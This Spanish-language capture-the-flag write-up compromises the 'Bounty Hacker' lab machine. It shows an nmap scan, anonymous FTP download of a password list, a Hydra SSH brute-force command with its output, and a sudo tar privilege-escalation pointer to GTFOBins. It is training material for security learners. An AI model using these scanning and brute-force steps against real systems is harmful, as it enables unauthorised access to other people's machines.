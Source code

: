 [VOLVER PAGINA PRINCIPAL](./)

# COWBOYHACKER - WriteUp
## Creamos la carpeta donde estara nuestra maquina para realizar la prueba

Creamos un directorio llamado **cowboyhacker** y nos meteremos a el.

```bash
mkdir cowboyhacker
cd $_
```

Una Vez dentro de la carpeta podemos realizar la actividad.

## Escaneo por NMAP

Ahora vamos ver los puertos que tiene la maquina para ello vamos a usar el siguiente comando de **nmap** para poder hacer el escaneo de puerto necesario.

```bash
nmap -sC -sV -p- -oN -min-rate=5000 Puertos.txt <IP_OBJETIVO>
```
- -min-rate=5000 : La cantidad de paquetes que se envia por segundo.
- -sC : Script predeterminados.
- -sV : Detección de versión.
- -oN : La salida donde se almacenara el resultado del comando.
- -p- : Todos los puertos para escanear.

**SALIDA DEL COMANDO**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.40.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**CAPTURA DEL RESULTADO EN LA TERMINAL**

![NMAP](/assets/img/HACKER_ETICO/COWBOYHACKER/NMAP-SCAN.png)

Con este resultado que vemos que existe un **FTP** en el cual se puede ver existe una entrada con **anonymous** y un servicio **SSH** en el cual se podria entra si existiera un usuario.

Tambien vemos el servicio **HTTP** pero no nos sirve de nada.

## ENTRAR EN FTP

Ahora vamos a entrar dentro del servicio **FTP**, con lo cual vamos a poner el siguiente comando para poder entrar en el.

Con lo que vamos entrar con el usuario **anonymous** que tiene **FTP** por defecto.

```bash
ftp <IP_OBJETIVO>
```

**SALIDA DEL COMANDO**
```bash
Connected to 10.10.18.227.
220 (vsFTPd 3.0.3)
Name (10.10.18.227:sunamy): anonymous
230 Login successful.
```

Ahora dentro del **FTP** vamos a poner el comando **ls** con lo se vera si existe unos fichero dentro de el.

**SALIDA DEL COMANDO**
```bash
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Ahora vamos a descargar los ficheros del **FTP** con lo cual usamos el comando **GET** para poder descargarlo.

**SALIDA DEL COMANDO**
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************|   418      672.49 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (7.04 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************|    68      484.71 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.20 KiB/s)
```

### PREGUNTAS SOBRE LO ENCONTRADO

- ¿Quién escribió la lista de tareas? 

```bash
Se observa en el fichero task.txt
```
- ¿Qué servicio puede hacer con fuerza bruta con el archivo de texto encontrado? 

```bash
Tras ver el usuario se puede ver que puerto se puede atacar.
```

## ENTRAR DENTRO DEL USUARIO

Tras observar el puerto en el cual podemos atacar vamos a usar **HYDRA** con los siguiente parametros.

```bash
hydra -l <USUARIO> -P <LIBRERIA-CONTRASEÑA> <IP-OBJETIVO> <PUERTO>
```

Como se ha observado anteriormente nos hemos descargado un archivo que se llama **locks.txt** que en realidad es un diccionario de las contraseña que se va usar para saber que contraseña tiene el usuario del puerto atacado.

**SALIDA DEL COMANDO**
```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 13:12:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ###://10.10.18.227:22/
[22][###] host: 10.10.18.227   login: ##n   password: ###ed#####gon######at##
1 of 1 target successfully completed, 1 valid password found
```

### PREGUNTAS SOBRE LO ENCONTRADO

- ¿Cuál es la contraseña de los usuarios? 

```bash
Contraseña dada por Hydra.
```

## BANDERA DEL USUARIO

Una vez dentro del usuario vamos a poner el comando **ls** con lo cual vemos el primer fichero que contiene la primera bandera.

```bash
##n@bountyhacker:~/Desktop$ ls
user.txt
##n@bountyhacker:~/Desktop$ cat user.txt
THM{#####3_S####d1####3}
```
### PREGUNTAS SOBRE LO ENCONTRADO

- user.txt

```bash
THM{#####3_S####d1####3}
```

## BANDERA DEL ROOT

Ahora vamos a escalar de privilegios con lo cual tenemos que ver que aplicaciones tiene el usuario con lo cual se ejecuta como root, para ello ponemos el comando **sudo -l** con lo cual nos dice que tiene el usuario con privilegios de root.

```bash
Matching Defaults entries for lin on bountyhacker:                          
    env_reset, mail_badpass,                                                
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                            
                                                                            
User lin may run the following commands on bountyhacker:                    
    (root) /bin/tar
```

Como vemos tiene como privilegios de root la aplicación de **tar** con lo cual vamos a la pagina [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/), con lo cual nos va decir como podemos entrar como **root** con el programa **tar**.



